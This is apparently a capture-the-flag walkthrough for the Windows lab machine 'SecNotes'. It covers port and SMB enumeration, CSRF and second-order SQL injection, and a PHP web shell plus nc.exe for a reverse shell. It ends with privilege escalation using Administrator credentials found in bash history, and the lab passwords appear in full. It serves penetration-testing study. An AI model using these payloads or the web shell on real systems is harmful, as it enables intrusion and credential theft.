




# SecNotes

In this room we are going to attempt to get root in the **SecNotes** machine which its theme is Windows Privilege Escalation!

Let's begin.

### Port Enumeration

Let's first start with a simple port enumeration command:

```
nmap <ip> -A -T4 -p-
```

> Host is up (0.063s latency).
> Not shown: 65532 filtered tcp ports (no-response)
> PORT     STATE SERVICE      VERSION
> 80/tcp   open  http         Microsoft IIS httpd 10.0
> |_http-server-header: Microsoft-IIS/10.0
> | http-title: Secure Notes - Login
> |_Requested resource was login.php
> | http-methods: 
> |_  Potentially risky methods: TRACE
> 445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: HTB)
> 8808/tcp open  http         Microsoft IIS httpd 10.0
> | http-methods: 
> |_  Potentially risky methods: TRACE
> |_http-server-header: Microsoft-IIS/10.0
> |_http-title: IIS Windows
> Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows
>
> Host script results:
> | smb2-security-mode: 
> |   311: 
> |_    Message signing enabled but not required
> | smb-security-mode: 
> |   account_used: guest
> |   authentication_level: user
> |   challenge_response: supported
> |_  message_signing: disabled (dangerous, but default)
> | smb2-time: 
> |   date: 2023-06-24T12:45:30
> |_  start_date: N/A


### SMB

```
enum4linux -a 10.10.10.97
smbclient -L ////10.10.10.97
```

The commands above used to enumerate SMB provided no information and returned an ACCESS DENIED message.


### Port 8808

Returns the default IIS server image, which confirms us its a Windows machine.

```
gobuster dir -u http://10.10.10.97:8808 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30
```

No results.


### Port 80

No results for the command.

```
gobuster dir -u http://10.10.10.97 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30
```

We are redirected to a /login.php page. If we try to enter a pair of credentials we can see that we are able to perform username enumeration.

I decided to create an account and login in order to see what functionalities there are.


After logging in the message above probably hints us about the user tyler.

### Credentials

Now, there are two methods to get to the next step: 

1. **XSRF (Cross-Site Request Forgery)**
2. **Second Order SQLi**

#### Method 1

The first method uses two different capabilities. If we initialize a local HTTP server on our machine and use the "Contact us:" feature we can see that the backend follows our links. In this case we would assume the user tyler.

```
nc -lnvp 80
```



Additionally, we can test the change password command from a post request to a GET request and it still works. Hence, we can use these two tests to craft a payload that is executed by the user Tyler in order to change its password.



Great! We are logged in as Tyler.


#### Method 2

An alternative method involves performing a second order SQLi. Basically, the web application performs queries with prepared statements in almost all the interactions with the database except for when it takes the list of notes related to the specific user that logins.

Hence, if the id of our user is something like `' or 1=1 -- -'` it will output all the notes in the database for the user.


Great let's see from here how we can get a shell.

### Foothold

Now that we have a set of credentials we should try to log in into the machine. Let's try using Psexec since the machine has SMB available.

```
impacket-psexec secnotes.htb/tyler@10.10.10.97
```

It seems we are not able to login, but we now know there is a new share called new-site we now have access to.



We can confirm this with:

```
smbmap -u tyler -p '92g!mA8BGjOirkL%OG*&' -H 10.10.10.97
```

Let's explore this new found share:

```
smbclient -U 'tyler' --password '92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site
smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site
```

We can see that the share is the root directory of the IIS server being hosted on port 8808. You can test for this by dropping a txt file inside it and calling it from the browser.

This means we can normally drop a php reverse shell, open a listener and get a shell. Unfortunately, some type of process is clearing the directory routinely which does not allow us to get a stable shell.

To circumvent this I did three things (inspired in this [walkthrough](https://0xdf.gitlab.io/2019/01/19/htb-secnotes.html)):

1. Drop the nc.exe in the directory

2. Drop a simple php web shell to execute commands in the target system with a cmd parameter
   ```
   <?php
       if(isset($_GET['cmd']))
       {
           system($_GET['cmd']);
       }
   ?>
   ```

3. Used the bash script in th walkthrough to automate the process in case I lost my shell

Basically what we do when we execute the payload is: put the nc.exe and the web shell on the target which runs the nc.exe and connects us to the machine with cmd.exe

Now whenever we lose our shell we simply rerun our bash script and get a new one.

### Privilege Escalation

Now that we are inside the target as tyler we can get the user.txt and try to escalate. I already had a hint from the TCM course that I should follow something sorts of the technique below to escalate.



Therefore, the first thing I did was try to find bash.exe.

```
cd /Windows/WinSxS
dir | findstr bash
cd ...bash...
bash.exe
```

After finding the directory where bash.exe is at I executed it and got a shell in bash.

```
/usr/bin/python3 -c 'import pty; pty.spawn("/bin/bash")'
```

After that I upgraded to a better shell and explored the current directory. Seeing .bash_history on the current directory automatically made me try to check it:

```
cat .bash_history
history
```


Great! We have the Administrator credentials, let's login:

```
impacket-psexec secnotes.htb/Administrator:@10.10.10.97
winexe -U 'secnotes.htb/Administrator%u6!4ZwgwOM#^OBf#Nwnh' //10.10.10.97 cmd.exe
```

We did it!
